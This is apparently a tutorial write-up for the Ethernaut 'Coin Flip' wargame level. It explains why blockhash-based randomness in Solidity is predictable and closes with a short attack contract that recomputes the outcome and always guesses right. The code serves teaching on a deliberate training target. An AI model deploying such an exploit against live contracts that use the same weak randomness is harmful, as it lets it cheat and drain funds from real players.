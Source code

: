 # hEthernaut 03: Coin Flip - Insecure Randomness

Learn about random numbers in Solidity

## The Task Intro

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have contr``ol over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

## The Task Code

The Coinflip task is a smart contract that has a flip function. It retrieves the blockhash of the block before, casts it to uint256 and devides it by a static huge factor, so the number might be 1.

## The Solution

There is no randomness because another contract can make the same calculation and therefore predict the outcome and always win.

```mermaid
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract coinFlipAttack {
    CoinFlip cf;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor (CoinFlip _cfa){
       cf = _cfa;
    }

    function attack()external{

            uint256 blockValue = uint256(blockhash(block.number -1));
            uint256 coinFlip = blockValue/FACTOR;

            bool result = coinFlip ==1 ? true: false;
            cf.flip(result);

    }

}
```
